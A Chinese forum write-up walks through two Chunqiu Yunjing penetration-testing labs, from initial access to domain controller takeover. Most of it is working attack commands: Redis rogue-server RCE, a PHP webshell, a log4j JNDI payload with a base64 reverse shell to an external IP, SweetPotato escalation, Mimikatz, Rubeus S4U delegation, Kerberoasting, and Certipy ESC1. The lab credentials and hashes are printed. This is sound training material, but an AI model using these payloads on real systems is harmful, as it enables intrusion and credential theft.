


# 内网打靶—春秋云镜双靶场 - 先知社区

内网打靶—春秋云镜双靶场

- - -

# 外网打点

进入靶场后，是一个Centos搭建成功的初始界面

[](https://xzfile.aliyuncs.com/media/upload/picture/20240113225757-237e338c-b224-1.png)

## 信息搜集

使用fscan扫描

[](https://xzfile.aliyuncs.com/media/upload/picture/20240113225808-29e60178-b224-1.png)

发现redis未授权登录和ftp匿名访问漏洞

## 漏洞探测

尝试ftp后发现无法写入，没有权限切换到`/var/www/html`下

[](https://xzfile.aliyuncs.com/media/upload/picture/20240113225814-2d364f68-b224-1.png)

所以放弃

而后尝试redis未授权 rce

1、写木马

[](https://xzfile.aliyuncs.com/media/upload/picture/20240113225819-3034d4aa-b224-1.png)

2、写公钥

[](https://xzfile.aliyuncs.com/media/upload/picture/20240113225823-32e72d88-b224-1.png)

没有权限，进入ssh会强制关闭连接

3、写计划任务

[](https://xzfile.aliyuncs.com/media/upload/picture/20240113225828-35ba6372-b224-1.png)

同样被关闭连接

## 漏洞利用

尝试过常规方法后，只剩一个redis主从复制还未进行尝试，这里用工具进行尝试

[https://github.com/n0b0dyCN/redis-rogue-server/tree/master](https://github.com/n0b0dyCN/redis-rogue-server/tree/master)

```plain
python3 redis-rogue-server.py --rhost 39.101.170.23 --lhost 119.3.215.198
```

[](https://xzfile.aliyuncs.com/media/upload/picture/20240113225835-3a0c87ca-b224-1.png)

而后在监听处收到请求

[](https://xzfile.aliyuncs.com/media/upload/picture/20240113225843-3e77d684-b224-1.png)

使用`python -c 'import pty; pty.spawn("/bin/bash")'`创建伪终端

[](https://xzfile.aliyuncs.com/media/upload/picture/20240113225846-40abdfd6-b224-1.png)

切换到根目录后，找一下flag

```plain
find /|grep "flag"
```

[](https://xzfile.aliyuncs.com/media/upload/picture/20240113225852-43e7b9f4-b224-1.png)

文件夹无法访问

[](https://xzfile.aliyuncs.com/media/upload/picture/20240113225857-46ba9f0c-b224-1.png)

需要提权

## 提权

查询下具有suid权限的命令

```plain
find / -user root -perm -4000 -print 2>/dev/null
```

[](https://xzfile.aliyuncs.com/media/upload/picture/20240113225916-52787c4c-b224-1.png)

发现base64，可以用此来读取文件

[](https://xzfile.aliyuncs.com/media/upload/picture/20240113225923-566ed7ba-b224-1.png)

# 内网横向

## 信息搜集

靶机上ifconfig,ip addr等都不存在最后使用`hostname -l`和`/sbin/ifconfig`获取所在网段；

[](https://xzfile.aliyuncs.com/media/upload/picture/20240113225931-5b22dcd4-b224-1.png)

上线至Viper，Fscan扫描

[](https://xzfile.aliyuncs.com/media/upload/picture/20240113225936-5e377998-b224-1.png)

具体内容如下

```plain
meterpreter > shell -c './fscan -h 172.22.2.7/24'

   ___                              _    
  / _ \     ___  ___ _ __ __ _  ___| | __ 
 / /_\/____/ __|/ __| '__/ _` |/ __| |/ /
/ /_\\_____\__ \ (__| | | (_| | (__|   <    
\____/     |___/\___|_|  \__,_|\___|_|\_\   
                     fscan version: 1.8.3
start infoscan
trying RunIcmp2
The current user permissions unable to send icmp packets
start ping
(icmp) Target 172.22.2.3      is alive
(icmp) Target 172.22.2.7      is alive
(icmp) Target 172.22.2.34     is alive
(icmp) Target 172.22.2.16     is alive
(icmp) Target 172.22.2.18     is alive
[*] Icmp alive hosts len is: 5
172.22.2.3:88 open
172.22.2.16:80 open
172.22.2.18:80 open
172.22.2.18:22 open
172.22.2.7:80 open
172.22.2.7:22 open
172.22.2.7:21 open
172.22.2.7:6379 open
172.22.2.16:1433 open
172.22.2.34:445 open
172.22.2.16:445 open
172.22.2.18:445 open
172.22.2.3:445 open
172.22.2.16:139 open
172.22.2.34:139 open
172.22.2.18:139 open
172.22.2.3:139 open
172.22.2.34:135 open
172.22.2.16:135 open
172.22.2.3:135 open
[*] alive ports len is: 20
start vulscan
[*] NetInfo 
[*]172.22.2.16
   [->]MSSQLSERVER
   [->]172.22.2.16
[*] WebTitle http://172.22.2.16        code:404 len:315    title:Not Found
[*] WebTitle http://172.22.2.7         code:200 len:4833   title:Welcome to CentOS
[*] NetInfo 
[*]172.22.2.34
   [->]CLIENT01
   [->]172.22.2.34
[*] NetBios 172.22.2.34     XIAORANG\CLIENT01             
[*] NetInfo 
[*]172.22.2.3
   [->]DC
   [->]172.22.2.3
[*] OsInfo 172.22.2.16  (Windows Server 2016 Datacenter 14393)
[*] NetBios 172.22.2.18     WORKGROUP\UBUNTU-WEB02        
[*] NetBios 172.22.2.3      [+] DC:DC.xiaorang.lab               Windows Server 2016 Datacenter 14393
[*] NetBios 172.22.2.16     MSSQLSERVER.xiaorang.lab            Windows Server 2016 Datacenter 14393
[*] OsInfo 172.22.2.3   (Windows Server 2016 Datacenter 14393)
[+] ftp 172.22.2.7:21:anonymous 
   [->]pub
[*] WebTitle http://172.22.2.18        code:200 len:57738  title:又一个WordPress站点
已完成 20/20
[*] 扫描结束,耗时: 13.385621755s
```

## 隧道搭建

接下来上传代理工具

```plain
wget VPS:PORT/frp
```

[](https://xzfile.aliyuncs.com/media/upload/picture/20240113225951-66f09d44-b224-1.png)

首先启动服务端

[](https://xzfile.aliyuncs.com/media/upload/picture/20240113230000-6c796386-b224-1.png)  
而后在靶机上执行

[](https://xzfile.aliyuncs.com/media/upload/picture/20240113230033-804625d4-b224-1.png)  
检测代理

[](https://xzfile.aliyuncs.com/media/upload/picture/20240113230040-8486fe02-b224-1.png)

## 攻击域成员一（Wordpress站）

注意到这个Wordpress站

```plain
[*] WebTitle http://172.22.2.18        code:200 len:57738  title:又一个WordPress站点
```

使用wpscan扫描，探测插件信息和版本相关漏洞。

```plain
proxychains4 wpscan --url "http://172.22.2.18/"
```

[](https://xzfile.aliyuncs.com/media/upload/picture/20240113230048-88f8f6de-b224-1.png)

发现插件`wpcargo`，且为6.x.x版本，寻找相关漏洞后使用对应Exp进行攻击

[](https://xzfile.aliyuncs.com/media/upload/picture/20240113230053-8c5a468e-b224-1.png)

而后尝试写入webshell

[](https://xzfile.aliyuncs.com/media/upload/picture/20240113230103-921c9dec-b224-1.png)

访问站点并输入参数如下即可种马

```plain
get:1=system
post:2=echo "<?php @eval(\$_POST[1]);?>" >> 12.php
```

[](https://xzfile.aliyuncs.com/media/upload/picture/20240113230118-9b57e95c-b224-1.png)

蚁剑设置好代理后进行Webshell连接。

[](https://xzfile.aliyuncs.com/media/upload/picture/20240113230124-9e784118-b224-1.png)

发现配置文件，查看其具体内容

[](https://xzfile.aliyuncs.com/media/upload/picture/20240113230129-a1724094-b224-1.png)

连接Mysql数据库，获取到此机器的flag。

## 攻击域成员二(Mssql服务)

[](https://xzfile.aliyuncs.com/media/upload/picture/20240113230134-a466faec-b224-1.png)

发现另一个表，同时下面存有密码，查询密码时发现`LIMIT 0,20`，将此限制删去，而后导出即可获取全部密码

[](https://xzfile.aliyuncs.com/media/upload/picture/20240113230142-a9a372f6-b224-1.png)

猜测此密码为172.22.2.16的Mssql数据库密码，而后使用fscan进行进行爆破

```plain
fscan -h 172.22.2.16 -m mssql -pwdf 1.txt
```

而后得到

```plain
[+] mssql:172.22.2.16:1433:sa ElGNkOiC
```

本地挂上Proxifier后使用mdut进行连接

[](https://xzfile.aliyuncs.com/media/upload/picture/20240113230150-add8cb28-b224-1.png)

发现是Mssqlserver用户权限，需要提权，结合之前IIS+Mssql的站点提权方式，猜测甜土豆提权可能有效，尝试甜土豆提权

[](https://xzfile.aliyuncs.com/media/upload/picture/20240113230156-b18456ac-b224-1.png)

成功提权，获取到System权限，接下来进行管理员用户添加

```plain
C:/迅雷下载/SweetPotato.exe -a "net user qwq qwq123 /add"
C:/迅雷下载/SweetPotato.exe -a "net localgroup administrators qwq /add"
```

RDP登录，获取到该机器的Flag

[](https://xzfile.aliyuncs.com/media/upload/picture/20240113230203-b5fe0200-b224-1.png)

## 攻击域控

使用Mimikatz进行密码抓取，这里注意要使用管理员权限进行

```plain
privilege::debug
sekurlsa::logonpasswords
```

[](https://xzfile.aliyuncs.com/media/upload/picture/20240113230208-b911c206-b224-1.png)

发现机器账户`MSSQLSERVER$`，同时配置了到域控的约束委派，可以通过TGT伪造S4U获取ST票据，进而得到域控权限。

使用Rubeus申请访问自身的票据

```plain
Rubeus.exe asktgt /user:MSSQLSERVER$ /rc4:eb0fe28d62f5c79394d1b24b247f3668 /domain:xiaorang.lab /dc:DC.xiaorang.lab /nowrap
```

```plain
C:\Users\qwq\Desktop>Rubeus.exe asktgt /user:MSSQLSERVER$ /rc4:eb0fe28d62f5c79394d1b24b247f3668 /domain:xiaorang.lab /dc:DC.xiaorang.lab /nowrap

   ______        _
  (_____ \      | |
   _____) )_   _| |__  _____ _   _  ___
  |  __  /| | | |  _ \| ___ | | | |/___)
  | |  \ \| |_| | |_) ) ____| |_| |___ |
  |_|   |_|____/|____/|_____)____/(___/

  v2.2.0

[*] Action: Ask TGT

[*] Using rc4_hmac hash: eb0fe28d62f5c79394d1b24b247f3668
[*] Building AS-REQ (w/ preauth) for: 'xiaorang.lab\MSSQLSERVER$'
[*] Using domain controller: 172.22.2.3:88
[+] TGT request successful!
[*] base64(ticket.kirbi):

      doIFmjCCBZagAwIBBaEDAgEWooIEqzCCBKdhggSjMIIEn6ADAgEFoQ4bDFhJQU9SQU5HLkxBQqIhMB+gAwIBAqEYMBYbBmtyYnRndBsMeGlhb3JhbmcubGFio4IEYzCCBF+gAwIBEqEDAgECooIEUQSCBE3ZU1O8YbaExZ97INGCi1ZGZcjtid7R8jbuo7EDS5CKdARhaFzXwSq4cFW5RhyJAPJoaj65ZZWcozSYQ4q8QZHgx8F6ADTwx6zACj3ESKzbilxXCFQTDOIpZTrvhmgMQpEeCysvtwC4GrY19jTLzB0MR2iTmeuIq3KB/XSslozOGxhnA5ZRlYnBvElZI7FFACD/LOXp+XY1iQobbCQG3NI8TCtuifv6u90UDUVwjTVd136d4kU0sKWjKbADv8DycxX5/+h/EBhuAnU4QvfXFGEseiZpMUaGFwINcbM4pQn+FOKaufWrr7stNKvBfgbrnQNmILLshcQ9oa2FSwW/Fg/2/Xa5hy5F40MSHZMlciPmMkTPldTRxZElAN8FmaSB/PRrLYN2Byjgvm/tQpPA7InRONqoPLRJAI/G+5bMELUzUcd5JQ/zhEji5usLYofMIUzv1EHKqx89APGJCt/CTlpMydjRdYlXfYirkX4kwIz3CwskeWRppwC0iaafkBLoQ2HC0IPKGC+7W6wV++7RnJ4h8JYH2uCD+SFGl8V9jpzVMOCRER4mSSgJmQveDlVQcDKc7r0MKjLSY7JPFUz8IySMZO7mcuVAvLT/W6KVw96tEWLY4g40m2yx4m0FsaxQHDLbgY2q2AhKudlzW4VxEeKK0RzncfnhmPqiXV46DpsAYoAqx80K1jTUoCqKAJG2l6Yk1Vnvk6mmRpfeoloi8f9kF4zMJ+RpCa5gpV+yK/EsExrmjz9Pbc0GihB2qdbz/hk/3li9XsZNb1uxN+GLWUAoF6wJeb0pHcKD48KC1BODMbjL2axeE+kxh2rBw4bDNhlMASYOP3J3RNEYshTFEn0p7SLeeYsuLfIXWk7sLbwy57Iaw4nElXVIB71A1SootWnLkKwKopJhCb01ubQF7VXxKMAc+npTNia7iU0CHutX1lQ+Dr5ZaAj032lvHHQjc4bwuRHwrwSrSAYo9gFBZf69NxSzLBkvmuEW7eKLWGY6aFY1206TuwQyL15m85IsgyJaTsNX578FVBj1/VejItLQEGsI3Ju1JOurC67YAAHn7Vd8VE5yZ5RyxZYD6Iix81jvJJhZV53SHNAn25diK6GvusOODLstMmf0LsvOkGDdF/+QZBKFIOwGzYHG5oILGiBLLWbJsrxX7D0J+ONZttvtUJu7mwm91ip1LbO9NR1+/rvVq1BTHwAC8dM9FefUGmv2OwfE0RM5Bcfwh59wYZlFiu3fKeUWQ+N6jlMmy95+xTbOTQJSbrVVdoB7FdOc+2+hlz11OgQ3D8pW/sXO6xNGfOCgU4hE747tOQP6yUun3bIOgx/HGowBlO7WRAxBxnaJEE6/GM4C/ZBbKjPcrWvKYxMJ0yIFKo4wLhHPxnI6lqRj1gbZgTcEnpkcRe7DlAHYgZQ/UceZ5WeOx8skYBpM2x8QsaxoMBkhz8zZQlJI4C4NuQ1Ludp0Q/hY+lCjgdowgdegAwIBAKKBzwSBzH2ByTCBxqCBwzCBwDCBvaAbMBmgAwIBF6ESBBDgm0LckVLtoIePu1WFMJWdoQ4bDFhJQU9SQU5HLkxBQqIZMBegAwIBAaEQMA4bDE1TU1FMU0VSVkVSJKMHAwUAQOEAAKURGA8yMDIzMTIzMDE3MDgzM1qmERgPMjAyMzEyMzEwMzA4MzNapxEYDzIwMjQwMTA2MTcwODMzWqgOGwxYSUFPUkFORy5MQUKpITAfoAMCAQKhGDAWGwZrcmJ0Z3QbDHhpYW9yYW5nLmxhYg==

  ServiceName              :  krbtgt/xiaorang.lab
  ServiceRealm             :  XIAORANG.LAB
  UserName                 :  MSSQLSERVER$
  UserRealm                :  XIAORANG.LAB
  StartTime                :  2023/12/31 1:08:33
  EndTime                  :  2023/12/31 11:08:33
  RenewTill                :  2024/1/7 1:08:33
  Flags                    :  name_canonicalize, pre_authent, initial, renewable, forwardable
  KeyType                  :  rc4_hmac
  Base64(key)              :  4JtC3JFS7aCHj7tVhTCVnQ==
  ASREP (key)              :  EB0FE28D62F5C79394D1B24B247F3668
```

抓到票据后进行S4U请求

```plain
.\Rubeus.exe s4u /impersonateuser:Administrator /msdsspn:CIFS/DC.xiaorang.lab /dc:DC.xiaorang.lab /ptt /ticket:doIFmjCCBZagAwIBBaEDAgEWooIEqzCCBKdhggSjMIIEn6ADAgEFoQ4bDFhJQU9SQU5HLkxBQqIhMB+gAwIBAqEYMBYbBmtyYnRndBsMeGlhb3JhbmcubGFio4IEYzCCBF+gAwIBEqEDAgECooIEUQSCBE3ZU1O8YbaExZ97INGCi1ZGZcjtid7R8jbuo7EDS5CKdARhaFzXwSq4cFW5RhyJAPJoaj65ZZWcozSYQ4q8QZHgx8F6ADTwx6zACj3ESKzbilxXCFQTDOIpZTrvhmgMQpEeCysvtwC4GrY19jTLzB0MR2iTmeuIq3KB/XSslozOGxhnA5ZRlYnBvElZI7FFACD/LOXp+XY1iQobbCQG3NI8TCtuifv6u90UDUVwjTVd136d4kU0sKWjKbADv8DycxX5/+h/EBhuAnU4QvfXFGEseiZpMUaGFwINcbM4pQn+FOKaufWrr7stNKvBfgbrnQNmILLshcQ9oa2FSwW/Fg/2/Xa5hy5F40MSHZMlciPmMkTPldTRxZElAN8FmaSB/PRrLYN2Byjgvm/tQpPA7InRONqoPLRJAI/G+5bMELUzUcd5JQ/zhEji5usLYofMIUzv1EHKqx89APGJCt/CTlpMydjRdYlXfYirkX4kwIz3CwskeWRppwC0iaafkBLoQ2HC0IPKGC+7W6wV++7RnJ4h8JYH2uCD+SFGl8V9jpzVMOCRER4mSSgJmQveDlVQcDKc7r0MKjLSY7JPFUz8IySMZO7mcuVAvLT/W6KVw96tEWLY4g40m2yx4m0FsaxQHDLbgY2q2AhKudlzW4VxEeKK0RzncfnhmPqiXV46DpsAYoAqx80K1jTUoCqKAJG2l6Yk1Vnvk6mmRpfeoloi8f9kF4zMJ+RpCa5gpV+yK/EsExrmjz9Pbc0GihB2qdbz/hk/3li9XsZNb1uxN+GLWUAoF6wJeb0pHcKD48KC1BODMbjL2axeE+kxh2rBw4bDNhlMASYOP3J3RNEYshTFEn0p7SLeeYsuLfIXWk7sLbwy57Iaw4nElXVIB71A1SootWnLkKwKopJhCb01ubQF7VXxKMAc+npTNia7iU0CHutX1lQ+Dr5ZaAj032lvHHQjc4bwuRHwrwSrSAYo9gFBZf69NxSzLBkvmuEW7eKLWGY6aFY1206TuwQyL15m85IsgyJaTsNX578FVBj1/VejItLQEGsI3Ju1JOurC67YAAHn7Vd8VE5yZ5RyxZYD6Iix81jvJJhZV53SHNAn25diK6GvusOODLstMmf0LsvOkGDdF/+QZBKFIOwGzYHG5oILGiBLLWbJsrxX7D0J+ONZttvtUJu7mwm91ip1LbO9NR1+/rvVq1BTHwAC8dM9FefUGmv2OwfE0RM5Bcfwh59wYZlFiu3fKeUWQ+N6jlMmy95+xTbOTQJSbrVVdoB7FdOc+2+hlz11OgQ3D8pW/sXO6xNGfOCgU4hE747tOQP6yUun3bIOgx/HGowBlO7WRAxBxnaJEE6/GM4C/ZBbKjPcrWvKYxMJ0yIFKo4wLhHPxnI6lqRj1gbZgTcEnpkcRe7DlAHYgZQ/UceZ5WeOx8skYBpM2x8QsaxoMBkhz8zZQlJI4C4NuQ1Ludp0Q/hY+lCjgdowgdegAwIBAKKBzwSBzH2ByTCBxqCBwzCBwDCBvaAbMBmgAwIBF6ESBBDgm0LckVLtoIePu1WFMJWdoQ4bDFhJQU9SQU5HLkxBQqIZMBegAwIBAaEQMA4bDE1TU1FMU0VSVkVSJKMHAwUAQOEAAKURGA8yMDIzMTIzMDE3MDgzM1qmERgPMjAyMzEyMzEwMzA4MzNapxEYDzIwMjQwMTA2MTcwODMzWqgOGwxYSUFPUkFORy5MQUKpITAfoAMCAQKhGDAWGwZrcmJ0Z3QbDHhpYW9yYW5nLmxhYg==
```

[](https://xzfile.aliyuncs.com/media/upload/picture/20240113230223-c19732c6-b224-1.png)

[](https://xzfile.aliyuncs.com/media/upload/picture/20240113230228-c4f67738-b224-1.png)

成功注入票据，接下来已拥有域管权限，直接访问Flag即可

[](https://xzfile.aliyuncs.com/media/upload/picture/20240113230232-c72cd826-b224-1.png)

# 靶场二

# 外网打点

打开网站，发现是一个Nginx初始站点

[](https://xzfile.aliyuncs.com/media/upload/picture/20240113230240-cc0d6eb4-b224-1.png)

## 信息搜集

使用fscan对其进行扫描

[](https://xzfile.aliyuncs.com/media/upload/picture/20240113230252-d2c95cd6-b224-1.png)

发现8983端口存在其他服务，访问之

[](https://xzfile.aliyuncs.com/media/upload/picture/20240113230258-d65ddc0a-b224-1.png)

存在log4j2组件，本来还想着找solr漏洞，这下直接打log4j2就好了

## 漏洞利用

使用`JNDI-Injection-Exploit-1.0-SNAPSHOT-all.jar`写入反弹Shell指令，并执行得到ldap恶意文件地址

```plain
java -jar JNDI-Injection-Exploit-1.0-SNAPSHOT-all.jar -C "bash -c {echo,YmFzaCAtaSA+JiAvZGV2L3RjcC8xMTkuMy4yMTUuMTk4LzY2NjYgMD4mMQ==}|{base64,-d}|{bash,-i}" -A 119.3.215.198
```

在目标站请求恶意文件

```plain
IP:PORT/solr/admin/cores?indexInfo=${jndi:ldap://119.3.215.198:1389/4buelf}
```

[](https://xzfile.aliyuncs.com/media/upload/picture/20240113230306-db58014a-b224-1.png)

[](https://xzfile.aliyuncs.com/media/upload/picture/20240113230310-dd8770a4-b224-1.png)

接管后用viper上线

## 提权

发现只是普通用户权限，需要进行提权，搜集下suid权限的命令

```plain
find / -user root -perm -4000 -print 2>/dev/null
```

[](https://xzfile.aliyuncs.com/media/upload/picture/20240113230317-e2174450-b224-1.png)

无果，接下来使用`sudo -l`发现grc

[](https://xzfile.aliyuncs.com/media/upload/picture/20240113230322-e4b17ff0-b224-1.png)

参考这个[https://gtfobins.github.io/gtfobins/grc/](https://gtfobins.github.io/gtfobins/grc/)

[](https://xzfile.aliyuncs.com/media/upload/picture/20240113230326-e7794bd2-b224-1.png)

接下来执行指令寻找flag

```plain
sudo grc --pty find / -name "flag"
```

[](https://xzfile.aliyuncs.com/media/upload/picture/20240113230333-eb6715bc-b224-1.png)

```plain
sudo grc --pty cat /root/flag/flag01.txt
```

[](https://xzfile.aliyuncs.com/media/upload/picture/20240113230338-eea637c6-b224-1.png)

# 内网横向

## 信息搜集

接下来使用fscan进行扫描

```plain
meterpreter > shell -c './fscan -h 172.22.9.19/24'

   ___                              _    
  / _ \     ___  ___ _ __ __ _  ___| | __ 
 / /_\/____/ __|/ __| '__/ _` |/ __| |/ /
/ /_\\_____\__ \ (__| | | (_| | (__|   <    
\____/     |___/\___|_|  \__,_|\___|_|\_\   
                     fscan version: 1.8.3
start infoscan
trying RunIcmp2
The current user permissions unable to send icmp packets
start ping
(icmp) Target 172.22.9.7      is alive
(icmp) Target 172.22.9.47     is alive
(icmp) Target 172.22.9.26     is alive
(icmp) Target 172.22.9.19     is alive
[*] Icmp alive hosts len is: 4
172.22.9.7:88 open
172.22.9.26:445 open
172.22.9.47:445 open
172.22.9.7:445 open
172.22.9.26:139 open
172.22.9.47:139 open
172.22.9.7:139 open
172.22.9.26:135 open
172.22.9.7:135 open
172.22.9.19:80 open
172.22.9.47:80 open
172.22.9.7:80 open
172.22.9.19:22 open
172.22.9.47:22 open
172.22.9.47:21 open
172.22.9.19:8983 open
[*] alive ports len is: 16
start vulscan
[*] NetInfo 
[*]172.22.9.7
   [->]XIAORANG-DC
   [->]172.22.9.7
[*] WebTitle http://172.22.9.47        code:200 len:10918  title:Apache2 Ubuntu Default Page: It works
[*] WebTitle http://172.22.9.19        code:200 len:612    title:Welcome to nginx!
[*] WebTitle http://172.22.9.7         code:200 len:703    title:IIS Windows Server
[*] NetBios 172.22.9.26     DESKTOP-CBKTVMO.xiaorang.lab        Windows Server 2016 Datacenter 14393
[*] NetBios 172.22.9.47     fileserver                          Windows 6.1
[*] NetInfo 
[*]172.22.9.26
   [->]DESKTOP-CBKTVMO
   [->]172.22.9.26
[*] NetBios 172.22.9.7      [+] DC:XIAORANG\XIAORANG-DC    
[*] OsInfo 172.22.9.47  (Windows 6.1)
[*] WebTitle http://172.22.9.19:8983   code:302 len:0      title:None 跳转url: http://172.22.9.19:8983/solr/
[*] WebTitle http://172.22.9.19:8983/solr/ code:200 len:16555  title:Solr Admin
[+] PocScan http://172.22.9.7 poc-yaml-active-directory-certsrv-detect
```

## 隧道搭建

使用chisel作为代理工具，在Vps上执行

```plain
./chisel server -p 7000 -reverse
```

[](https://xzfile.aliyuncs.com/media/upload/picture/20240113230349-f4cded10-b224-1.png)

然后在客户端

```plain
./chisel client 119.3.215.198:7000 R:0.0.0.0:7001:socks
```

[](https://xzfile.aliyuncs.com/media/upload/picture/20240113230353-f776292e-b224-1.png)

成功连接，接下来进行测试

[](https://xzfile.aliyuncs.com/media/upload/picture/20240113230357-f9ba27a8-b224-1.png)

## 攻击域成员一(SMB)

提示SMB，且`172.22.9.47`存在文件服务，因此尝试使用Smbclient进行连接

[](https://xzfile.aliyuncs.com/media/upload/picture/20240113230402-fd098e1c-b224-1.png)

成功连接，在其共享目录下发现secret文件

[](https://xzfile.aliyuncs.com/media/upload/picture/20240113230411-022b84c2-b225-1.png)

查看发现第二个flag

[](https://xzfile.aliyuncs.com/media/upload/picture/20240113230447-17a0adf0-b225-1.png)

同时给了一段话

```plain
Yes, you have enumerated smb. But do you know what an SPN is?
```

留下悬念，应该后面会用到SPN。

## 攻击域成员二(SPN)

同时发现存在一个db文件，使用`get xxx.db`下载下来

发现账密，但只有密码

[](https://xzfile.aliyuncs.com/media/upload/picture/20240113230500-1f3e1b56-b225-1.png)

同时发现另一个表中存在大量用户

[](https://xzfile.aliyuncs.com/media/upload/picture/20240113230505-229352b2-b225-1.png)

明显的需要进行密码喷洒，使用hydra对`172.22.9.26`用户进行尝试

```plain
proxychains hydra -L user.txt -P pwd.txt 172.22.9.26 rdp -vV -e nsproxychains hydra -L user.txt -P pwd.txt 172.22.9.26 rdp
```

[](https://xzfile.aliyuncs.com/media/upload/picture/20240113230522-2cada608-b225-1.png)

得到有效账密如下

```plain
zhangjian:i9XDE02pLVf
liupeng:fiAzGwEMgTY
```

不过试了试发现无法登录，联想到刚刚提示的SPN，在这里查询下SPN

```plain
proxychains python3 GetUserSPNs.py -request -dc -ip 172.22.9.7 xiaorang.lab/zhangjian
```

[](https://xzfile.aliyuncs.com/media/upload/picture/20240113230534-339b233c-b225-1.png)

得到了密码chenchen和zhangxia的密码哈希，使用hashcat工具进行密码爆破

```plain
hashcat -m 13100  spn.txt /usr/share/wordlists/rockyou.txt --show
```

得到结果如下

```plain
zhangxia:MyPass2@@6
chenchen@xiaorang.lab:@Passw0rd@
```

尝试RDP后可以成功登录

[](https://xzfile.aliyuncs.com/media/upload/picture/20240113230543-393b9484-b225-1.png)

但flag在Administrator目录下，普通用户仍没有权限查看。

## 攻击域控(AD CS)

靶场提示了`AD CS`，百度了解相关思路过后这里应该是需要通过某证书利用拿域控，所以接下来先探测下当前有哪些证书

```plain
proxychains certipy find -u 'liupeng@xiaorang.lab'  -password 'fiAzGwEMgTY' -dc-ip 172.22.9.7 -vulnerable -stdout
```

[](https://xzfile.aliyuncs.com/media/upload/picture/20240113230550-3d3e74ca-b225-1.png)

```plain
Certificate Authorities
  0
    CA Name                             : xiaorang-XIAORANG-DC-CA
    DNS Name                            : XIAORANG-DC.xiaorang.lab
    Certificate Subject                 : CN=xiaorang-XIAORANG-DC-CA, DC=xiaorang, DC=lab
    Certificate Serial Number           : 43A73F4A37050EAA4E29C0D95BC84BB5
    Certificate Validity Start          : 2023-07-14 04:33:21+00:00
    Certificate Validity End            : 2028-07-14 04:43:21+00:00
    Web Enrollment                      : Enabled
    User Specified SAN                  : Disabled
    Request Disposition                 : Issue
    Enforce Encryption for Requests     : Enabled
    Permissions
      Owner                             : XIAORANG.LAB\Administrators
      Access Rights
        ManageCertificates              : XIAORANG.LAB\Administrators
                                          XIAORANG.LAB\Domain Admins
                                          XIAORANG.LAB\Enterprise Admins
        ManageCa                        : XIAORANG.LAB\Administrators
                                          XIAORANG.LAB\Domain Admins
                                          XIAORANG.LAB\Enterprise Admins
        Enroll                          : XIAORANG.LAB\Authenticated Users
    [!] Vulnerabilities
      ESC8                              : Web Enrollment is enabled and Request Disposition is set to Issue
Certificate Templates
  0
    Template Name                       : XR Manager
    Display Name                        : XR Manager
    Certificate Authorities             : xiaorang-XIAORANG-DC-CA
    Enabled                             : True
    Client Authentication               : True
    Enrollment Agent                    : False
    Any Purpose                         : False
    Enrollee Supplies Subject           : True
    Certificate Name Flag               : EnrolleeSuppliesSubject
    Enrollment Flag                     : PublishToDs
                                          IncludeSymmetricAlgorithms
    Private Key Flag                    : ExportableKey
    Extended Key Usage                  : Encrypting File System
                                          Secure Email
                                          Client Authentication
    Requires Manager Approval           : False
    Requires Key Archival               : False
    Authorized Signatures Required      : 0
    Validity Period                     : 1 year
    Renewal Period                      : 6 weeks
    Minimum RSA Key Length              : 2048
    Permissions
      Enrollment Permissions
        Enrollment Rights               : XIAORANG.LAB\Domain Admins
                                          XIAORANG.LAB\Domain Users
                                          XIAORANG.LAB\Enterprise Admins
                                          XIAORANG.LAB\Authenticated Users
      Object Control Permissions
        Owner                           : XIAORANG.LAB\Administrator
        Write Owner Principals          : XIAORANG.LAB\Domain Admins
                                          XIAORANG.LAB\Enterprise Admins
                                          XIAORANG.LAB\Administrator
        Write Dacl Principals           : XIAORANG.LAB\Domain Admins
                                          XIAORANG.LAB\Enterprise Admins
                                          XIAORANG.LAB\Administrator
        Write Property Principals       : XIAORANG.LAB\Domain Admins
                                          XIAORANG.LAB\Enterprise Admins
                                          XIAORANG.LAB\Administrator
    [!] Vulnerabilities
      ESC1                              : 'XIAORANG.LAB\\Domain Users' and 'XIAORANG.LAB\\Authenticated Users' can enroll, enrollee supplies subject and template allows client authentication
```

发现ESC1，按流程打即可。

先在hosts内容中添加下相关信息(后两个)，不然会出现连接超时的情况

[](https://xzfile.aliyuncs.com/media/upload/picture/20240113230600-43532c52-b225-1.png)

利用`XR Manager`模板为域管请求证书

```plain
proxychains certipy req -u 'liupeng@xiaorang.lab' -p 'fiAzGwEMgTY' -target 172.22.9.7 -dc-ip 172.22.9.7 -ca "xiaorang-XIAORANG-DC-CA" -template 'XR Manager'  -upn administrator@xiaorang.lab
```

[](https://xzfile.aliyuncs.com/media/upload/picture/20240113230605-45fa6fe2-b225-1.png)

转换格式

```plain
proxychains certipy auth -pfx administrator.pfx -dc-ip 172.22.9.7
```

[](https://xzfile.aliyuncs.com/media/upload/picture/20240113230609-4834b77c-b225-1.png)

接下来获取到了域管Hash，用工具进行PTH即可

[](https://xzfile.aliyuncs.com/media/upload/picture/20240113230613-4b2499b6-b225-1.png)

已获取了域管权限，那么其他域用户当然也可以用此用户进行登录，查看刚刚域成员二的flag

[](https://xzfile.aliyuncs.com/media/upload/picture/20240113230618-4e13ad92-b225-1.png)
